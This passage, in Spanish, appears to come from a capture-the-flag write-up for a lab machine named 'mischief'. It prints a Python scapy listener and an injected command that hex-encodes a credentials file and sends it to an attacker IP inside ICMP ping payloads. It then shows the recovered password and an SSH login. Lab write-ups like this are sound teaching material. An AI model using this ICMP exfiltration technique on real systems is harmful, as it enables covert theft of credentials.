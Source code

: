 Existe una forma de exfiltrar datos por ICMP

```null
#!/usr/bin/python3

from scapy.all import *
import sys, signal

def def_handler(sig, frame):
    sys.exit(1)

# Ctrl+C
signal.signal(signal.SIGINT, def_handler)

# Variables globales
interface = 'tun0'

def data_parser(packet):
    if packet.haslayer(ICMP):
        if packet[ICMP].type == 8:
            data = packet[ICMP].load[-4:].decode("utf-8")
            print(data, flush=True, end='')
    

if __name__ == '__main__': # xxd -p -c 4 /etc/hosts | while read i; do echo $i | xxd -ps -r; done

    sniff(iface=interface, prn=data_parser)
```

Extraigo el archivo con las credenciales

```null
command=xxd -p -c 4 /home/loki/cred* | while read i; do ping -c 1 -p $i 10.10.16.2; done
```

```null
python3 icmp_exfiltrate.py
pass: lokiisthebestnorsegod
```

Me conecto por SSH a la máquina víctima

```null
ssh loki@mischief
The authenticity of host 'mischief (dead:beef::250:56ff:feb9:b3f4)' can't be established.
ED25519 key fingerprint is SHA256:LRoc9mZWtnzRyWauACsRMtbfxC4kfWgpskmzscQNeGo.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'mischief' (ED25519) to the list of known hosts.
loki@mischief's password: 
Welcome to Ubuntu 18.04 LTS (GNU/Linux 4.15.0-20-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Tue Mar 28 07:47:33 UTC 2023

  System load:  0.0               Processes:            160
  Usage of /:   61.7% of 6.83GB   Users logged in:      0
  Memory usage: 40%               IP address for ens33: 10.10.10.92
  Swap usage:   0%


 * Canonical Livepatch is available for installation.
   - Reduce system reboots and improve kernel security. Activate at:
     https://ubuntu.com/livepatch

```